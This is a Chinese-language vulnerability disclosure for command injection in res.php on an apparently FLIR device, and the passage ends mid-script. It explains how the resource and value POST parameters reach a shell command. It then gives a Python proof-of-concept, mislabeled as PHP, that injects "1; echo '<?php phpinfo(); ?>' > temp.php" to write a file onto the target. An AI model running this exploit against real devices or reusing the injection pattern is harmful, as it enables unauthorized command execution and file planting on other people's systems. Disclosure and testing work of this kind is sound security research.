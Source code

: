 在 www 目录下 res.php 程序接收 POST 方法请求，若存在 set 参数，并且提供一个 resource 参数和 value 参数，若 resource 的值不是 .rtp.hflip 和 .rtp.vflip 时，程序会将 resource  的值和 value 的值与 LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rset 拼接执行，若 resource 或 value 中包含命令截断符，会造成命令注入。

![image-20221203211548670](.assets/image-20221203211548670.png)

# 三、漏洞利用&POC

POC：

```php
import requests
import sys
import urllib3
# disable https not verify warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def verify(url):
    try:
        page = "res.php"
        target_url = url + "/" + page    
        headers = {
            'Host': url.strip("http://").strip("https://"),
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8',
        }
    
        # use resource
        data = {
            'action':'set',
            'resource': "1; echo '<?php phpinfo(); ?>' > temp.php",
            'value':'1'
        }

        # use value 
        '''
        data = {
            'action':'set',
            'resource': "1",
            'value': "1; echo '<?php phpinfo(); ?>' > temp.php"
        }
        '''
        response = requests.post(target_url,
                                 verify=False,
                                 data=data,
                                 headers=headers)
        print(response.text)
    except Exception as e:
        print(e)
            
if __name__ == '__main__':
```